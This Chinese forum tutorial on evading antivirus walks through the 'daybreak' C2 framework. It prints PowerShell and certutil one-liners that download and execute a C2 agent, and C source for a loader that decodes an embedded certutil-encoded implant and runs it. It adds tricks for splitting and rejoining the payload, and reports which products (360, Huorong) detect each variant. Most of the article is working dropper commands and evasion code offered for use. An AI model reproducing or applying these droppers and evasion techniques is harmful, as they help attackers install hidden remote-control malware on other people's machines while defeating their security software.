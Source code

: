 

# 免杀学习-从指令绕过开始(1) - 先知社区

免杀学习-从指令绕过开始(1)

* * *

# 免杀学习-从指令绕过开始-1

# 破晓

免杀新伙伴-daybreak，这个工具是类似CS的工具

下面的图片是它的控制界面，利用了Web界面更加简介美观且自带中文

[![](assets/1701612229-31b1d05ed0bf6fa5c832f4a43e90caef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163540-e493cada-32a1-1.png)

分析一下它自带的上线语句

[![](assets/1701612229-013d341e6fd225682131cb76cc9b583f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163615-f9f37146-32a1-1.png)

支持多种操作系统的上线，相比CS需要按照插件才能上线linux更加集成

支持利用powershell和certutil指令进行上线操作

```plain
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://127.0.0.1:1338/d/pzxsnoqd','pzxsnoqd.exe') && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe

certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

需要注意的是破晓的上线操作需要利用探针的参数才行，比如这里的e75tdmwe

# 初步测试

我们将自带的命令进行编译生成exe文件直接尝试上线

[![](assets/1701612229-3d56aa4a7ab0fed009b0f0ae6dd53cb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163630-02d3e1a6-32a2-1.png)

### 在360环境下测试

[![](assets/1701612229-4ef77cb20b6a74b474457405d1b6711b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163651-0f4b3bbe-32a2-1.png)

静态免杀没问题，尝试上线

[![](assets/1701612229-26ecc135b398de1b5146d4b96ff1eb94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163707-18822634-32a2-1.png)

上线失败被阻止

### 在火绒环境下运行

静态云查杀依旧没有问题

[![](assets/1701612229-52184da398b2994e694eebcdaa2426c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163728-254cd2c4-32a2-1.png)

尝试上线

[![](assets/1701612229-9f440f595cb777c98de5a353c8893557.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163748-3111d2f8-32a2-1.png)

果然还是被阻止了

### 进行文件分析

效果显示很不错

```plain
https://www.virustotal.com/gui/
```

[![](assets/1701612229-2a324d73c44e09938af8288fe889af08.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163804-3ae019d4-32a2-1.png)

这个就更离谱了

```plain
https://www.virscan.org/language/zh-cn/
```

[![](assets/1701612229-acf71c05a5764dd842ad751707f5b8c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163816-41c948c4-32a2-1.png)

# 进阶

通过利用certutil自带的加解密功能进行木马的免杀

加密代码

```plain
Certutil -encode C+Powershell.exe out.txt
```

C语言源码

```plain
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    #将解密的内容写入一个文件中
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"
        #C2文件加密的内容
        "-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    #进行解密
    system("Certutil -decode encryption.txt test.exe");
    #确保上述代码运行完成
    Sleep(5000);
    system("test.exe C2执行参数");
    return 0;
}
```

再次编译生成exe文件，点击运行，首先产生一个解码文件，然后再次产生可执行文件，最终达到上线，下图时

[![](assets/1701612229-e5865ef3cbf682b7bb6016c6b96e117e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163850-56423ffe-32a2-1.png)

### 火绒环境下

发现成功产生了解密文件和木马文件，但木马文件运行时仍出现告警

### 360环境下

我没想到火绒杀了，联网的360居然没杀，成功上线

[![](assets/1701612229-421070a4fff076fbd08e9919932bcf08.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163909-619acbd2-32a2-1.png)

进行360木马查杀中的快速查杀，居然还没杀掉

[![](assets/1701612229-4584f93c24c61e239d3b68ec4aa6db71.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163940-7409e3ac-32a2-1.png)

# 技巧一（缝合）

当我们利用certutil进行的时候，会发现我们加密后的数据过于冗长可能会在上传过程中遇到很多问题，那么我们可以利用文件切割，再利用我们的COPY指令进行缝合

```plain
copy 1.txt+2.txt+...+n.txt  out.txt
```

最后利用

```plain
certutil -decode out.txt   C2可执行文件名.exe
```

我们通过以下命令进行加密，产生txt文件

```plain
Certutil -encode C+Powershell.exe out.txt
```

利用文本切割器，按照每500行一份进行切割

```plain
文本切割器网站
https://uutool.cn/txt-incise/
```

[![](assets/1701612229-84971a7a654afc9763f9d138746d52a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163956-7d776554-32a2-1.png)

我们将文本缝合后利用certutil进行解密

```plain
certutil -decode out.txt test.exe
```

[![](assets/1701612229-bfde7c502b03475ea25679a94fcbf14e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164013-87690b4e-32a2-1.png)

运行木马程序

火绒报错

360在文本进行编译成exe后直接报警

[![](assets/1701612229-c21f140e5704ef9b83a7e7b7d7c9475f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164028-90499198-32a2-1.png)

### 技巧二（冷知识）

windows命令行，中执行命令对文件判断时，不是判断文件后缀而是判断文件头，因此如果我们是exe文件，我们修改后缀为jpg等依旧可以额执行命令

测试代码如下

```plain
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"

"-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    return 0;
}
```

进行命令执行

[![](assets/1701612229-803f238cfdf699d0395eac5aa275fb44.png)](http://xz.aliyun.com/t/%E8%BF%9B%E9%98%B6%E5%85%8D%E6%9D%801-0/image-20230327172739414.png)

命令执行结果

[![](assets/1701612229-ac3339e8ffd5f9aa633ffb373317545b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164112-aac13260-32a2-1.png)

但当我们想直接在C中将解密后的文件修改后缀再启动时，会遇到以下错误，解密文件会产生成功但无法执行

[![](assets/1701612229-deef84a5b362b027bab46227bf5030b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164130-b529af0c-32a2-1.png)
